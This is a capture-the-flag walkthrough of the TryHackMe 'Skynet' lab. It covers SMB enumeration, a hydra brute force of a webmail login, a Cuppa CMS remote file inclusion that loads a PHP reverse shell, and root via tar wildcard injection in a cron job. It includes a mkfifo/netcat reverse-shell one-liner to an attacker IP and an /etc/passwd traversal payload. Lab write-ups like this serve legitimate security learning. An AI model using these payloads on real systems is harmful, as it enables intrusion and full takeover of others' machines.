










THM SKYNET
Enumeration
nmap -sV -sC -O -vv 10.10.68.116
We find a webserver on 80
smb on 445
And some mail ports at 110 & 143 (Not used for exploitation)
we open the webpage to have a blank skynet search page.
(Nothing intresting here)
Next we use gobuster to find out hidden directories.

Most of the directores in the output are not accessible.
Code 301: Means Permanently moved
Still http://10.10.68.116/squirrelmail will take us to a mail login page.
We do not have any credentials yet.
I start enuerating samba shares & users.
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.68.116


We find one user: milesdyson
We also find 2 user shares: \\10.10.68.116\anonymous & \\10.10.68.116\milesdyson
Guest Access is not allowed in \\10.10.68.116\milesdyson
However, Guest Access is allowed in \\10.10.68.116\anonymous
We check the share for further info
smbclient //10.10.68.116/anonymous -U guest

We download the two files with data. Attention.txt and log1.txt
Attention.txt : A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
log1.txt: Looks like a file containing passwords. (May be some of them are still in use)
Now, i try to use the passwords in the log1.txt to bruteforce the samba share of milesdyson using hydra.

But as we see there is no success.
Next, I try to use the same set of passwords for the squirrel mail login using hydra
I capture the request of a test login using burpsuite and record the error.
Burp Request:
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.10.68.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://10.10.68.116
Connection: close
Referer: http://10.10.68.116/squirrelmail/src/login.php
Cookie: SQMSESSID=ak2eqf48ns0o4a8el0eu1a72v3
Upgrade-Insecure-Requests: 1
login_username=milesdyson&secretkey=Bazinga&js_autodetect_results=1&just_logged_in=1
Error Message:
Unknown user or password incorrect.
Now using the above data and the error message received. I crafted the hydra command as follows.

Thus we find the mail password: cyborg007haloterminator
Then we use the following credentials to get into the mailbox.
Username : milesdyson
Password : cyborg007haloterminator
Inside the inbox we find SMB password to miledyson.
Next we enumerate the SMB share of miledyson.
smbclient //10.10.68.116/milesdyson -U milesdyson
We find an important.txt

As we now know the CMS portal url. We go back to gobuster with this hidden directory to find some thing.

Here we find a directory called Administrator. We visit the link. http://10.10.68.116/45kra24zxs28v3yd/administrator
We get a “cuppa CMS Login Page”
searchsploit cuppa cms


Next we study the 25971.txt file. See the following part
#####################################################
EXPLOIT
#####################################################
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
We can test this in our case by the following:
http://10.10.68.116/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=/etc/passwd
We will get the /etc/passwd file of the target on the webpage indicating LFI.
However, we will use RFI here.
FootHold
We host the php-reverse-shell.php file in a python web server. Then use the following URL as payload.
1. Start a netcat listener as per the php reverse shell data.
2. Use the URL http://10.10.68.116/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.72.31/php-reverse-shell.php
3. This will trigger the reverse shell and we will get the user flag.
Privelege Escalation
We view the crontab file to get the following details.
cat /etc/crontab
We browse “milesdyson” home directory and find a backup folder.
Inside backup folder, we find the backup.sh script which is run by root every 1 min.
This script makes a tar backup of /var/www/html
Inside we find tar command. Then look at GTFObins of how to escalate it.
We create the following files inside /var/ww/html
Exact commands should be used for creating the files else we may face error.
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.72.31 8888 >/tmp/f" > shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/"--checkpoint-action=exec=bash shell" Or touch /var/www/html/--checkpoint-action=exec=bash\ shell
Remember to to have a netcat listner ready. Within 1 minute we will get a reverse shell as root.
Get the root flag at /root/root.txt
Thanks !!